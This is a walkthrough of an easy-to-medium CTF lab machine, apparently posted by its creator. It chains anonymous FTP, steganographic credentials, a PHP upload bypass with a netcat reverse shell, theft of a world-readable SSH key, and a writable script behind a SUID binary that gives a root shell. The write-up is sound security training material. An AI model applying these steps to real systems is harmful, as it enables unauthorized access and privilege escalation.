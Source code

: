 # LaZzyCorp: Lazy Reset

---

*By ItsMhaa*

> Welcome to DevCorp — where mistakes are meant to be reset.
> 

In this **easy-to-medium** difficulty CTF, you step into the shoes of a security researcher investigating a **careless developer’s internal staging machine**.

What starts with anonymous FTP access slowly unravels into a multi-step chain of **steganography**, **web exploitation**, **SSH hijacking**, and a **SUID binary that resets more than just the website** 😏

---

## 🔎 Box Information

```
Name: LaZzyCorp: Lazy Reset
Difficulty: Easy-Medium
Creator: ItsMhaa
OS: Ubuntu 20.04
IP: [Dynamic/Static – e.g., 192.168.1.150]
```

---

## 📖 Story

DevCorp is a startup working on a blog platform. Their junior dev, Arvind, has been testing things on a local server — but in classic lazy fashion, he’s left behind:

- Sensitive developer notes
- A hidden image in FTP
- His personal SSH key
- And worst of all… a **reset tool that runs as root** 🧨

Your goal?

**Pivot from anonymous FTP to full root** by chaining together misconfigs, forgotten files, and one poorly secured script.

---

## Summary

A misconfigured FTP server and a lazy reset tool set the stage for your exploitation path.

Expect a mix of:

- Steganography
- Upload bypasses
- Permission abuse
- A clean privilege escalation path
- Minimal guesswork, maximum fun!

---

## Step 1 – Recon Phase

- Run `nmap` → open ports: **21 (FTP), 80 (HTTP), 22 (SSH)**
- Try anonymous FTP → **Success**
- Inside `/pub/`, you find:
    
    ✅ `note.jpg`
    
    (Note:- Make sure while downloading file you use binary mode of FTP. )
    

---

## Step 2 – Steganography & Foothold

- Extract hidden data using:
    
    ```bash
    steghide extract -sf note.jpg
    ```
    
- Hidden creds discovered inside:
    
    ```
    Username: dev
    Password: ****
    
    ```
    
- Visit the site → `/login`
- Upload `shell.php` using extension bypass: `.php.upload`
- Start listener:
    
    ```bash
    nc -lvnp 4444
    
    ```
    
- Trigger uploaded shell → gain **reverse shell as www-data**

---

## Step 3 – User Escalation (SSH as Arvind)

- While in shell:
    
    ```bash
    cat /home/arvind/.ssh/id_rsa
    
    ```
    
- File is world-readable
- Copy it to your attacker box → Save as `id_rsa` → `chmod 600 id_rsa`
- SSH into:
    
    ```bash
    ssh -i id_rsa arvind@<target-ip>
    
    ```
    

---

## Step 4 – Privilege Escalation (SUID Reset)

- List SUID binaries:
    
    ```bash
    find / -perm -4000 2>/dev/null
    
    ```
    
- You find:
    
    ```bash
    /home/arvind/reset
    
    ```
    
- It runs:
    
    ```bash
    /usr/bin/reset_site.sh
    
    ```
    
- And that file is **writable by *arvind***
- Modify it:
    
    ```bash
    echo 'bash -p' > /usr/bin/reset_site.sh
    
    ```
    
- Now run:
    
    ```bash
    /home/arvind/reset
    
    ```
    
- BOOM → Root shell 

---

## Step 5 – Flags

```
/home/arvind/user.txt   →  FLAG{****}

/root/root.txt          →  FLAG{*****}

```

---

## 🧠 What You Learned

✅ Steganography + FTP

✅ Web login & PHP upload bypass

✅ Reading SSH keys from web shells

✅ SSH pivoting

✅ SUID + script poisoning for root access

---

## 💬 Final Thoughts

This box was made for:

- Beginners learning post-exploitation
- People wanting story-based lateral movement
- CTF lovers who enjoy clean logic over rabbit holes

Made with ❤️ by ItsMhaa

LinkedIn: [www.linkedin.com/in/mohammad-husain-ajani](http://www.linkedin.com/in/mohammad-husain-ajani) 

GitHub: https://github.com/mohammadajani/mohammadajani

Notion Walkthrough: [LaZzyCorp: Lazy Reset](https://www.notion.so/LaZzyCorp-Lazy-Reset-232f6840ffbe80fca6c8c92bec2b02b7?pvs=21) 

---
